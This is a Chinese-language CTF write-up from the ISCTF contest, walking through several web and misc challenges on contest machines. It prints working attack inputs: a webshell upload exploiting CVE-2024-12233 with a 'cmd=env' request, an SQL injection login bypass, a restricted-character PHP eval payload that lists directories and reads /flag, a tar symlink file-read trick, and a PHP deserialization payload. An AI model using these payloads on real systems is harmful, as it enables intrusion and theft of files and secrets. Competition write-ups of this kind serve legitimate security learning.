这次参加了ISCTF的比赛，虽然其实好多题都没有做出来，但是还是学到了一些知识

也看到了一些差距，知道差距了，就该努力啦

## b@by n0t1ce b0ard 
> CVE-2024-12233 是在 **code-projects Online Notice Board**（版本 ≤ 1.0）中发现的一个**高危漏洞**，漏洞位于 _registration.php_ 的 **Profile Picture Handler** 组件中。由于对参数 _img_ 缺乏有效验证，攻击者可利用该缺陷实现**任意文件无限制上传**。该漏洞可被远程利用，且已公开披露，存在被恶意利用的风险。
>

CVE-2024-12233

按照题目提示是漏洞复现，搜索后得到上述结果

其实就是文件上传



上传点在注册页面

根据 VulDB 漏洞库披露的技术细节，CVE-2024-12233 漏洞的文件上传路径为：

`/images/{USER-EMAIL}/{UPLOAD_FILENAME}`

找到当前容器中上传路径

```plain
http://challenge.bluesharkinfo.com:26461/images/1@1.1/shell.php?cmd=env
```



获取flag

 FLAG=ISCTF{09029bff-81b4-4e78-9232-754d801f4285}  

## flag到底在哪 
进入靶机发现403，无权访问

按照提示阅读robots.txt

```plain
User-agent: *
Disallow: /admin/login.php
```

发现管理员登录后台

按照提示`  账户必须是admin  `

猜测这是永真型sql注入，注入点在密码

尝试 `' OR '1'='1  `

登录后

上传webshell读环境变量里的flag就行了


```plain
http://challenge.bluesharkinfo.com:26461/images/1@1.1/shell.php?cmd=env
```



 FLAG=ISCTF{09029bff-81b4-4e78-9232-754d801f4285}  

## ezrce 


```php
 <?php
highlight_file(__FILE__);

if(isset($_GET['code'])){
    $code = $_GET['code'];
    if (preg_match('/^[A-Za-z\(\)_;]+$/', $code)) {
        eval($code);
    }else{
        die('师傅，你想拿flag？');
    }
} 
```

这是一个php代码执行

但是只允许 $code 里包含大小写字母、圆括号、下划线和分号

那先试一下?code=phpinfo();



看来是可以执行的，但是flag不在这里面

问了chatgpt，它给出的思路是

尝试 scandir()、var_dump()、print_r()、__DIR__、dirname() 等来枚举当前目录、父目录、再上一级，逐级向 / 扫描。

但是scandir() 需要参数（不能写空 scandir();，会报「expects at least 1 parameter, 0 given」）。所以要传 __DIR__ 或 dirname(__DIR__) 等返回路径的表达式。

最后选择使用

```php
print_r(scandir(dirname(__DIR__)));
print_r(scandir(dirname(dirname(__DIR__))));
print_r(scandir(dirname(dirname(dirname(__DIR__)))));
```

这样，一级一级最后到达根目录

Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => dev [5] => etc [6] => flag [7] => home [8] => lib [9] => media [10] => mnt [11] => opt [12] => proc [13] => root [14] => run [15] => sbin [16] => srv [17] => sys [18] => tmp [19] => usr [20] => var )  

发现flag在 /flag

最后使用


```php
?code=chdir(dirname(dirname(dirname(__DIR__))));highlight_file(flag);
```

来读取/flag

highlight_file() 接收一个文件路径并输出带语法高亮的文件内容(就是展示源代码)

这里写的是 flag没有引号 —— 在 PHP 中，如果 flag 不是已定义的常量，PHP 会发一个 notice：Use of undefined constant flag - assumed 'flag'，然后把它当成字符串 'flag' 继续执行。 

 __DIR__  是php的魔法常量，代表当前脚本所在目录

dirname() 每调用一次就往上一级目录。

最后输出



<font style="color:#000000;">ISCTF{b152a2b9-242a-4f5a-9052-1e3bd8f20270}</font>

## flag？我就借走了 
这道题很简单，其实就是在tar里面打包一个指向/flag的软链接

下载那个软链接实际会把flag下载下来

这和我上次做的国赛的签到题很类似

但是如果没有那道题我肯定会想很久

多长见识还是很重要的



创建指向 /flag的软链接并把它打包到tar

上传后下载flag_link文件



用记事本打开会发现下载的其实是flag



ISCTF{63d1e793-48ab-4c1c-a617-0924fc2c4731}

## 来签个到吧 
php反序列化

感觉不是签到题其实。。

分析index.php的源码

```php
<?php
require_once "./config.php";
require_once "./classes.php";

if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $s = $_POST["shark"] ?? '喵喵喵?';

    if (str_starts_with($s, "blueshark:")) {
        $ss = substr($s, strlen("blueshark:"));

        $o = @unserialize($ss);

        $p = $db->prepare("INSERT INTO notes (content) VALUES (?)");
        $p->execute([$ss]);

        echo "save sucess!";
        exit(0);
    } else {
        echo "喵喵喵?";
        exit(1);
    }
}

$q = $db->query("SELECT id, content FROM notes ORDER BY id DESC LIMIT 10");
$rows = $q->fetchAll(PDO::FETCH_ASSOC);
?>
```

首先

```php
if (!str_starts_with($_POST["shark"], "blueshark:"))
   die("not starts with blueshark:");
```

说明了传入的数据必须以 blueshark: 开头。

然后把blueshark:去掉

剩下的内容执行反序列化

然后把未处理的反序列化内容原样存到数据库

（$ss就是构造的序列化对象 ）

漏洞在 api.php里面

```php
$id = $_GET["id"];
$s = $db->prepare("SELECT content FROM notes WHERE id = ?");
$s->execute([$id]);
$row = $s->fetch();

$cfg = unserialize($row["content"]);

if ($cfg instanceof ShitMountant) {
    echo nl2br(htmlspecialchars($cfg->fetch()));
}

```

api.php 根据 id 从数据库取出之前插入的 $ss

 重新执行了一次反序列化

如果反序列化出的对象是ShitMountant，就执行$cfg->fetch()  

 类 ShitMountant  

```php
class ShitMountant {
    public $url;
    public $logger;

    public function fetch() {
        $c = file_get_contents($this->url);
        if ($this->logger) {
            $this->logger->write("fetched ==> ".$this->url);
        }
        return $c;
    }
}

```

fetch() 会执行file_get_contents($this->url)

只要构造一个对象,让url=/flag就可以读取flag文件

最终pyload

```php
shark=blueshark:O:12:"ShitMountant":1:{s:3:"url";s:5:"/flag";}
```

post传。

 save sucess了以后

首页发现

写入成功

然后api.php/?id=1



获取flag。

 ISCTF{a9b01e44-fb03-4156-9127-c7d09062a7c2}  

## MISC_消失的flag 
题目说用nc连接

试图用nc连接靶机



连接以后发现是ssh

题目上还告诉了用户名

```bash
ssh qyy@challenge.bluesharkinfo.com -p 21714
```



一连上就断开连接了

试图抓tcp包那些都没法获取flag

最后在chatgpt的提醒下


```bash
ssh -p 21714 qyy@challenge.bluesharkinfo.com | sed -r 's/\x1B\[[0-9;?]*[A-Za-z]//g' | tr -d '\r'
```

| 是管道符，将管道前的命令的输出纯文本的形式输入管道后面的命令

ssh -p 21714 qyy@challenge.bluesharkinfo.com | sed -r 's/\x1B\[[0-9;?]*[A-Za-z]//g' | tr -d '\r'的意思是

将这道题ssh连接后靶机的输出删除所有ANSI转义序列删除所有回车符再输出

这样就得到flag



ISCTF{ada771da-6664-4934-a95d-3c01d3540b2a}

